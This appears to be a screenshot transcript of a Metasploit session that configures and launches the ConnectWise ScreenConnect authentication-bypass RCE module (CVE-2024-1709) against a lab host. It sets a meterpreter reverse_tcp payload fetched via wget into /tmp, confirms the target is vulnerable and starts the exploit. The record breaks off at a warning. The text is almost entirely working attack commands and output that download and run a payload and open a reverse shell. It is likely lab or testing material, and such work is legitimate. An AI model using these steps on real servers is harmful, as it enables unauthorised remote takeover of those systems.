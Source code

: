 ```
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set RHOST 192.168.86.72
RHOST => 192.168.86.72
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set target 2
target => 2
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp 
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set FETCH_COMMAND WGET
FETCH_COMMAND => WGET
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set FETCH_WRITABLE_DIR /tmp
FETCH_WRITABLE_DIR => /tmp
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > show options

Module options (exploit/multi/http/connectwise_screenconnect_rce_cve_2024_1709):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.72    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8040             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      whUoZoNn         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux Command



View the full module info with the info, or info -d command.

msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > check
[*] 192.168.86.72:8040 - The target appears to be vulnerable. ConnectWise ScreenConnect 20.3.31734 running on Linux.
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ConnectWise ScreenConnect 20.3.31734 running on Linux.
[!] Did not locate the __VIEWSTATEGENERATOR.
```